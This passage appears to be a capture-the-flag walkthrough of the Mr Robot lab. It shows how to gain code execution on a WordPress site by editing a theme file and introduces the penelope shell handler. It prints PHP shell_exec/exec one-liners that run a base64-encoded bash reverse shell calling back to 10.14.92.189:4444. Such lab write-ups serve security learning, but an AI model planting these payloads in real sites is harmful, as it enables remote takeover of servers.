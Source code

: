 ![[Mrrobot/images/22.png]]

In my recent check, there were a lot of `php` programs embedded in this application. That's why, we can say `100` percentage to the app working on `PHP` as a backend. Let's find a hole to run `PHP` programs.

Initially, I directly move on `theme` plugin called `twentyfifteen`:

![[Mrrobot/images/23.png]]

It has been running for almost 10 minutes as it is :) Let me move on editor to modify manually:

## Exploitation

Now we have a lot of `PHP` programs embedded in current theme. `Generic Pentest Monkey` payload would work ,yet I would like you to show a tool named `penelope`, automates all the shell upgrade processes handling all the stuff related to the persistence rapidly.

![[Mrrobot/images/24.png]]

[Github Repo](https://github.com/brightio/penelope)

Before you try to run the tool, you should add it on your `env` variable ,but tool also manages automatically. Just call it with `penelope` in your terminal.

1) it directly deploys the listener on all your interface check it below:

![[Mrrobot/images/25.png]]

If you give `p` as input, It recommends payload options adapting your interface:

![[Mrrobot/images/26.png]]
The first payload was directly attempting to run bash reverse shell ,but still we can use with compatible version of it. Thanks to the `shell_exec()` and `exec()` methods in `PHP`, we can handle all this concerns.

```
<?php
shell_exec("echo -n c2V0c2lkIGJhc2ggPiYgL2Rldi90Y3AvMTAuMTQuOTIuMTg5LzQ0NDQgMD4mMSAm | base64 -d | bash");
?>
```

or

```
<?php
exec("echo -n c2V0c2lkIGJhc2ggPiYgL2Rldi90Y3AvMTAuMTQuOTIuMTg5LzQ0NDQgMD4mMSAm | base64 -d | bash");
?>
```

Replace entire comment generated by `Wordpress` with our base64 payload:

![[Mrrobot/images/27.png]]
